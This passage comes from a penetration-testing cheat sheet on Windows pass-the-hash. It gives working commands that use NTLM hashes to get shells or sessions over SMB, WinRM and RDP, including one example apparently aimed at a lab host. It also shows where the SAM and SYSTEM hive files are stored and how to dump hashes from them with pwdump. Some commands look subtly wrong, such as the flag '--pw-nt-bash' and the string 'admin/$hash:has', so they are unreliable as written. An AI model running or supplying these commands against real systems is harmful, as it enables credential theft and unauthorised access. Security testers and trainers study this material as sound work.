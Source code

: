 ### Pass The Hash

You can authenticate services by using a valid username and the hash value without a decrypted password.

#### SMB PTH

```
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
```

```
pth-winexe -U administrator //$targetip cmd
pth-winexe -U admin/$hash:has //$targetip cmd
```

e.g)&#x20;

```
pth-winexe --user=jeeves/administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 --system //10.10.10.63 cmd.exe
```

```
smbclient //$targetip/C$ -U "$targetuser" --pw-nt-bash $hash
```

#### RDP PTH

By using evil-winrm [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

```
evil-winrm -u "$targetuser" --hash $hash -i $targetip
```

By using freerdp-x11

```
apt-get install freerdp-x11
xfreerdp /u:admin /d:win7 /pth:hash:hash /v:$targetip
```

## Windows Passwords

You can check two fundamental files from Windows, system registry and SAM registry.

```
Systemroot can be windows
%SYSTEMROOT%\repair\SAM
windows\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM

System file can be found here
SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\RegBack\system
```

Then extract the password hashed

```
pwdump system sam
```





